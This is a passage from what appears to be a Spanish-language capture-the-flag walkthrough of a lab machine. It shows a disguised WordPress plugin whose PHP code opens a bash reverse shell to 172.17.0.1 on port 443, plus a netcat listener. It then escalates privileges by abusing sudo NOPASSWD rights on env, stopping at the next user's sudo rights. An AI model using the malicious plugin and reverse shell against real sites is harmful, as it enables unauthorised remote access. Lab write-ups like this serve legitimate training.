    ```bash
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------25809358041701007273769940861--


```

Mientras nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**)

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@32bb9201378f:/var/www/html/themes/uploads$ sudo -l
Matching Defaults entries for www-data on 32bb9201378f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 32bb9201378f:
    (daphne) NOPASSWD: /usr/bin/env
```

Vemos **env** con permisos SUDO :
   ```bash
www-data@32bb9201378f:/var/www/html/themes/uploads$ sudo -u daphne env /bin/bash
```

YA ESTAMOS COMO DAPHNE.

Vemos si el usuario tiene permisos SUDO:
   ```bash
daphne@32bb9201378f:/$ sudo -l
Matching Defaults entries for daphne on 32bb9201378f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daphne may run the following commands on 32bb9201378f:
    (vilma) NOPASSWD: /usr/bin/ash
```
